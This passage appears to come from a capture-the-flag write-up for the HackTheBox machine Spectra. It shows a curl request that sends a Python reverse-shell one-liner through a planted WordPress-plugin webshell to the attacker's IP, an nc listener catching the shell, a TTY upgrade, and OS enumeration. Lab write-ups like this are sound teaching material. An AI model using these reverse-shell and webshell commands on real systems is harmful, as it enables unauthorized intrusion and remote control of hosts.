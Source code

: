 

### Shell

With either webshell, getting a shell is as simple as passing it a
reverse shell. I like to use `curl` so it's repeatable.

It doesn't look like `nc` is on the host, so that eliminates several
command reverse shells. I got the Python one to work:



    root@kali# curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"



At `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:44864.
    $ id
    uid=20143(nginx) gid=20144(nginx) groups=20144(nginx)



I'll upgrade my shell:



    $ python -c 'import pty;pty.spawn("bash")'
    <are/nginx.md/main/wp-content/plugins/0xdf-plug $ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset 
    reset: unknown terminal type unknown
    Terminal type? screen
    nginx@spectra /usr/local/share/nginx.md/main/wp-content/plugins/akismet $ 



## Shell as katie

### Enumeration

`/etc/lsb-release` solves the mystery about the OS:



    nginx@spectra ~ $ cat /etc/lsb-release 
    GOOGLE_RELEASE=87.3.41
    CHROMEOS_RELEASE_BRANCH_NUMBER=85
    CHROMEOS_RELEASE_TRACK=stable-channel
    CHROMEOS_RELEASE_KEYSET=devkeys
    CHROMEOS_RELEASE_NAME=Chromium OS
    CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
    CHROMEOS_RELEASE_BOARD=chromeover64
    CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
    CHROMEOS_RELEASE_BUILD_NUMBER=13505
    CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
    CHROMEOS_RELEASE_CHROME_MILESTONE=87
    CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
    CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
    CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a